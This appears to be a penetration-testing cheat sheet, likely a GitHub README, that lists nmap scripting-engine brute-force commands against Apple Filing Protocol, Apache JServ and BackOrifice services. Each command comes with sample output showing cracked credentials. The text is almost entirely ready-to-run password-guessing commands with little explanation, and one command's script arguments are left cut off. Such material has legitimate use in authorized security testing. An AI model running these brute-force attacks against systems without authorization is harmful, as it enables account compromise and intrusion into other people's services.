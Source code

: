 # NMAP BRUTEFORCING

As a pentester, we must understand and know what this extremely powerful tool is capable of, it can do SO Much more then just scanning ports ;-)


## AFP - Brute-Force                              
_Performs password guessing against Apple Filing Protocol (AFP)_
     
     root@hostname: ~/ # nmap -p 548 --script afp-brute 192.168.1.12

     |PORT    STATE SERVICE
     |548/tcp open  afp
     | afp-brute:
     |_  admin:KenSentMe => Valid credentials



## AJP - Brute-Force                          
_Performs brute force passwords auditing against the Apache JServ protocol. The Apache JServ Protocol is commonly used by web servers to communicate with back-end Java application server containers_

     root@hostname: ~/ # nmap -p 8009 192.168.1.12 --script ajp-brute

     |PORT     STATE SERVICE
     |8009/tcp open  ajp13
     | ajp-brute:
     |   Accounts
     |     root:secret - Valid credentials
     |   Statistics
     |_    Performed 1946 guesses in 23 seconds, average tps: 82



## Backorifice - Brute-Force                         
     
     root@hostname: ~/ # nmap -sU --script backorifice-brute 192.168.1.12 --script-args backorifice-brute. 

     |PORT       STATE  SERVICE
     |31337/udp  open   BackOrifice
     | backorifice-brute:
     |   Accounts:
     |     michael => Valid credentials
     |   Statistics
     |_    Perfomed 60023 guesses in 467 seconds, average tps: 138
